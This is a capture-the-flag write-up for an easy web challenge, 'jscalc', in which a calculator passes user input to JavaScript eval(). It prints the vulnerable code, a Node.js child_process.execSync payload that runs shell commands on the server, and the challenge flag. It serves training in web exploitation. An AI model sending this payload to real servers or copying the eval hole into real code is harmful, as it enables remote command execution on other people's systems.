



### jscalc
In the mysterious depths of the digital sea, a specialized JavaScript calculator has been crafted by tech-savvy squids. With multiple arms and complex problem-solving skills, these cephalopod engineers use it for everything from inkjet trajectory calculations to deep-sea math. Attempt to outsmart it at your own risk! 🦑

Challenge Files:
<pre>
web_jscalc/
├── build-docker.sh
├── challenge/
│   ├── helpers/
│   │   └── <a href="calculatorHelper.js">calculatorHelper.js</a>
│   ├── index.js
│   ├── package.json
│   ├── package-lock.json
│   ├── routes/
│   │   └── index.js
│   ├── static/
│   │   ├── css/
│   │   │   └── main.css
│   │   ├── favicon.png
│   │   └── js/
│   │       └── main.js
│   ├── views/
│   │   └── index.html
│   └── yarn.lock
├── config/
│   └── supervisord.conf
├── Dockerfile
├── flag.txt
└── supervisord.conf

9 directories, 15 files
</pre>

Category: Web<br>
Difficulty: Easy

---

#### Website

The challenge website is a calculator:



---

#### Command Injection

The challenge files appear to be a directory containing the source code for the website. The `calculatorHelper.js` file handles the logic for evaluating calculator input:

```js
// web_jscalc/challenge/helpers/calculatorHelper.js
calculate(formula) {
    try {
        return eval(`(function() { return ${ formula } ;}())`);

    } catch (e) {
        if (e instanceof SyntaxError) {
            return 'Something went wrong!';
        }
    }
}
```

Since `eval()` function executes the string passed to it as JavaScript Code, we can manipulate the calculator input to execute code that reads the flag. By spawning a subprocess to make a syscall, we can then use the `toString()` function to view the output of the syscall:

```javascript
require('child_process').execSync('our cmd').toString()
```

---


#### Flag
> HTB{c4lcul4t3d_my_w4y_thr0ugh_rc3}


We find the flag file path:



Then we view the contents of the flag:



---